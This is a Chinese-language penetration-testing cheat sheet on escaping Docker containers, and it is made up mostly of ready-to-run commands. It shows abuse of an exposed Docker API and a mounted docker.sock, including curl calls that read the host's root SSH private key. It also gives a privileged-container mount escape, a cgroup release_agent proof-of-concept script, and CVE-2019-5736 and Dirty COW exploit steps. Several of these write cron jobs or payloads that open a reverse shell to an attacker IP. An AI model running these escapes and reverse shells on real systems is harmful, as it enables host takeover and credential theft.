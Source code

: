 	    一个工具https://github.com/stealthcopter/deepce
	    二个工具https://github.com/gabrtv/shocker
  #### 判断是否在docker容器中
	    检查/.dockerenv文件是否存在
	    检查/proc/1/cgroup内是否包含"docker"等字符串。
	    mount、fdisk -l查看硬盘 、判断PID 1的进程名
  #### 配置不当引发的逃逸
	    挂载点/在宿主/mnt目录
	    >docker -H tcp://10.1.1.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
	    容器内执行
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
	    本地监听4444，获得宿主机shell
  #### Docker sock
	    Docker.sock 是一个 Unix 套接字，它使 Docker 服务器端守护进程 dockerd 能够通过 REST API 与其命令行接口进行通信。 套接字显示为 /var/run/docker.sock 文件。 因为它是一个文件，管理员可以在容器中共享和运行 docker.sock，然后使用它与该容器进行通信。 运行 docker.sock 的容器可以启动或停止其他容器，在主机上创建镜像或写入主机文件系统。 这一切意味着当您运行“docker”命令行工具时，它实际上是在与 docker 套接字通信。
	    有时开发人员会将 docker 套接字安装在 docker 容器内，以便他们可以管理其他容器。 这通常使用以下命令完成：：
	    docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest
	    注意“-v /var/run/docker.sock:/var/run/docker.sock”选项，这个标志将在 docker 容器内挂载 docker 套接字。 攻击者所要做的就是下载 docker CLI，他们将完全控制 docker API，这将允许他们删除容器、创建容器、执行命令或其他任何他们想要的东西
	    容器内找到docker.sock
	    >find / -name docker.sock
	    容器内查看宿主机信息
	    >docker -H unix:///var/位置 info
	    运行一个容器挂载宿主机根路径
	    >docker -H unix:///var/位置 run -it -v /:/test ubuntu /bin/bash
	    查看宿主机文件
	    >ls /test
  #### Docker sock 手动操作
	    查看可用的镜像
	    curl --unix-socket docker.sock http://localhost/images/json -s
	    创建一个容器
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Hostname": "", "Domainname": "", "User": "", "AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Tty": true, "OpenStdin": true, "StdinOnce": true, "Entrypiont": "/bin/sh", "Image": "容器名称", "Volumes": {"/host/": {}}, "HostConfig": {"Binds": ["/:/host"]}}' http://localhost/containers/create
	    启动容器
	    curl --unix-socket docker.sock -s -X POST http://localhost/containers/容器ID/start
	    创建任务1
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    任务回显
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start -o-
	    创建任务2 列出root .ssh目录
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/root/.ssh"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看回显
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
	    创建任务3 查看私钥文件
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["cat", "/host/root/.ssh/id_rsa"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看私钥
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
  #### 特权用户
	    Docker image如果使用“--privileged”标志运行，该标志禁用 Docker 提供的所有保护和隔离。运行“fdisk -l”并接收输出，可认为特权身份允许。
	    剩下要做的就是将主机文件系统挂载到“/dev/sda1”
	    >mkdir /test
	    >mount /dev/sda1 /test,读取宿主机文件。
	    写入计划任务
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /test/var/spool/cron/crontabs/root
	    本地监听返回shell
	    或挂在root目录后写入私钥文件
	    >docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
	    >mkdir /root/.ssh
	    >cat id_rsa.pub >> /root/.ssh/authorized_keys
	    还可以尝试以下 POC 漏洞利用代码：
```bash
    d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    touch /o;
    echo $t/c >$d/release_agent;
    echo "#!/bin/sh $1 >$t/o" >/c;
    chmod +x /c;
    sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
  #### CVE-2019-5736
	    条件Docker < 18.09.2，runc< 1.0-rc6（docker ；docker-runc查看版本）
	    git clone https://github.com/Frichetten/CVE-2019-5736-PoC
	    >vim main.go
	    >payload = "#!/bin/bash \n bash -i >& /dev/tcp/YOURIP/1234 0>&1"
	    编译
	    >CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
	    复制到容器上执行
	    管理员通过exec进入容器，触发Payload
  #### CVE-2019-14271
  #### 脏牛漏洞实现Docker逃逸
	    >git clone https://github.com/gebl/dirtycow-docker-vdso.git
	    >cd dirtycow-docker-vdso/
	    >sudo docker-compose run dirtycow /bin/bash
	    >cd /dirtycow-vdso/
	    >make
	    >./xx YOURIP:1234
  #### 能力
	    CAP_SYS_ADMIN
	    CAP_SYS_PTRACE
	    CAP_SYS_MODULE
	    CAP_DAC_READ_SEARCH
	    CAP_DAC_OVERRIDE